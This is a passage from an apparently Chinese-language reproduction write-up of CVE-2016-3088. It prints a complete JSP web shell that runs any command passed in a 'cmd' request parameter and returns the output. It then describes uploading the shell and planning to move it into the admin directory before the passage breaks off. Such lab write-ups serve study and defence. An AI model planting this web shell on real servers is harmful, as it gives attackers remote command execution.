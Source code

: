    * ​	准备`shell木马`，因为后端是`java`服务，这里我们选择`jsp`的木马。`1.jsp`

      ```jsp
      <%@ page import="java.io.*"%>
      
      <%
      	out.print("Hello</br>");
      	String strcmd=request.getParameter("cmd");
      	String line=null;
      	Process p=Runtime.getRuntime().exec(strcmd);
      	BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
      	while((line=br.readLine())!=null){
      		out.print(line+"</br>");
      	}
      %>
      ```

    * 上传木马文件，发现木马上传成功，但是再请求时却不能解析成功，没有`Hello`的html页面回显

      ![image-20220224160913932](CVE-2016-3088.assets/image-20220224160913932.png)

      ![image-20220224161153404](CVE-2016-3088.assets/image-20220224161153404.png)

  * 更改木马`1.jsp`文件目录，从`fileserver`迁移至`admin`目录下，此时就需要结合前面已经知道的**目录绝对路径**
